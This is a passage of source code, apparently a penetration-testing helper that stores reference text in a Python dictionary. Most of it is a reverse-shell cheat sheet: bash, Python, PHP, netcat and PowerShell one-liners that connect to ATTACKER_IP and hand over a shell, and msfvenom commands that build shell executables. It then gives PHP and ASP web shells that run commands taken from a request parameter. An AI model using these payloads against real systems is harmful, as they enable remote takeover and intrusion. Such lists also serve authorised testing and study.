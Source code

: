 AUTOMATED TOOLS:
- LinPEAS, WinPEAS
- Linux Exploit Suggester
- Windows Exploit Suggester
- PowerUp.ps1, SharpUp
""",
            },
            "payloads": {
                "reverse_shells": """
REVERSE SHELL PAYLOADS:

BASH:
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

PYTHON:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP:
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

NETCAT:
nc -e /bin/sh ATTACKER_IP PORT

POWERSHELL:
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

MSFVENOM EXAMPLES:
Linux: msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell
Windows: msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
""",
                "web_shells": """
WEB SHELL PAYLOADS:

PHP WEB SHELL:
<?php system($_GET['cmd']); ?>

ADVANCED PHP SHELL:
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>

ASP WEB SHELL:
<%eval request("cmd")%>
